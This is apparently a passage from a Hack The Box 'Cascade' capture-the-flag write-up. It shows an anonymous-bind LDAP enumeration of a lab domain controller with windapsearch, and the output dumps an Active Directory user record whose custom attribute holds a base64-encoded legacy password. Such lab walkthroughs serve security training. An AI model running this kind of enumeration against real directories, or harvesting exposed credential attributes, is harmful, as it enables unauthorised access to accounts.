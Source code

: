 ## LDAP Enumeration with `windapsearch`
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # /opt/windapsearch/windapsearch.py -d cascade.local --dc-ip 10.10.10.182 -U --full
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.182
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=cascade,DC=local
[+] Attempting bind                 
[+]     ...success! Binded as:
[+]      None
[+] Enumerating all AD users
[+]     Found 15 users: 


objectClass: top              
objectClass: person           
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson      
givenName: Ryan    
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4          
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610                  
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010           
name: Ryan Thompson           
objectGUID: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0                     
codePage: 0  
countryCode: 0            
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251          
primaryGroupID: 513                     
objectSid: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807     
logonCount: 2                           
sAMAccountName: r.thompson            
sAMAccountType: 805306368                       
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z        
dSCorePropagationData: 20200119174753.0Z        
dSCorePropagationData: 20200119174719.0Z        
dSCorePropagationData: 20200119174508.0Z        
dSCorePropagationData: 16010101000000.0Z        
lastLogonTimestamp: 132294360317419816          
msDS-SupportedEncryptionTypes: 0                
cascadeLegacyPwd: clk0bjVldmE=
```
